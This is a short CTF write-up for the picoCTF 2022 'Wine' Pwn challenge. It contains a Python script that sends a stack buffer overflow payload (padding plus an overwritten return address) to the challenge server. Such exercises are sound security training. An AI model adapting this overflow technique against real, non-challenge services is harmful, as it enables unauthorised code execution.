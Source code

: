 ```yaml
---
name: Wine (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Wine (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Wine

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=3713 "Pico CTF 2022: Wine")

## Description

> Challenge best paired with wine.

## Solution

{% code overflow="wrap" %}
```py
import socket

payload = b'A' * 140
payload += b'\x30\x15\x40'
print('payload = ' + str(payload))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect(('saturn.picoctf.net', 62461))
print(s.recv(1024))
print(s.send(payload + b'\r\n'))
print(s.recv(1024))
s.close()
```
{% endcode %}
